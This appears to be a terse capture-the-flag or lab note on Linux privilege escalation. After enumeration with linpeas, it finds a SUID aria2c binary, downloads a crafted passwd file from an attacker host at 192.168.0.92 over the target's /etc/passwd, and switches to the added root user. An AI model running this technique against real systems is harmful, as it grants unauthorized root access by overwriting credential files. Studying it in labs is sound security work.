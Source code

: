 linpeas\.sh

/usr/bin/aria2c SUID bit set -  refer hacktricks on privesc
refer to aria2c documentation

add a user with root permissions in /etc/passwd file and download it onto victim machine

/usr/bin/aria2c \-d /etc \-o passwd [http://192.168.0.92:8000/passwd](#http://192.168.0.92:8000/passwd)
\-\-allow\-overwrite=true

su hacker
passwd

# root